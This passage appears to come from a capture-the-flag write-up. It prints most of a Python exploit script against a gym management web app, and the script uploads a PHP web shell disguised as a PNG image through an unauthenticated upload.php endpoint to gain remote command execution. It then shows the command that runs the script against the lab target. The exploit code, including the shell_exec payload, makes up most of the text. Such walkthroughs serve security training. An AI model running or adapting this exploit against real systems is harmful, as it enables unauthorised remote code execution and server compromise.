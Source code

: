``` python
                r2.raise_for_status()
            response2 = r2.text
            print(response2)
    except:
        print("\r\nExiting.")
        sys.exit(-1)

def formatHelp(STRING):
    return Style.BRIGHT+Fore.RED+STRING+Fore.RESET

def header():
    BL   = Style.BRIGHT+Fore.GREEN
    RS   = Style.RESET_ALL
    FR   = Fore.RESET
    SIG  = BL+'            /\\\n'+RS
    SIG += Fore.YELLOW+'/vvvvvvvvvvvv '+BL+'\\'+FR+'--------------------------------------,\n'
    SIG += Fore.YELLOW+'`^^^^^^^^^^^^'+BL+' /'+FR+'============'+Fore.RED+'BOKU'+FR+'====================="\n'
    SIG += BL+'            \/'+RS+'\n'
    return SIG

if __name__ == "__main__":
    print header();
    if len(sys.argv) != 2:
        print formatHelp("(+) Usage:\t python %s <WEBAPP_URL>" % sys.argv[0])
        print formatHelp("(+) Example:\t python %s 'https://10.0.0.3:443/gym/'" % sys.argv[0])
        sys.exit(-1)
    SERVER_URL = sys.argv[1]
    UPLOAD_DIR = 'upload.php?id=kamehameha'
    UPLOAD_URL = SERVER_URL + UPLOAD_DIR
    s = requests.Session()
    s.get(SERVER_URL, verify=False)
    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png     = {
                'file': 
                  (
                    'kaio-ken.php.png', 
                    PNG_magicBytes+'\n'+'<?php echo shell_exec($_GET["telepathy"]); ?>', 
                    'image/png', 
                    {'Content-Disposition': 'form-data'}
                  ) 
              }
    fdata   = {'pupload': 'upload'}
    r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
    webshell(SERVER_URL, s)
```

Now we simply need to run the `gms-exploit.py` script, passing it the site address `http://10.10.10.198:8080/` as the only argument.

``` bash
python gms-exploit.py http://10.10.10.198:8080/
```
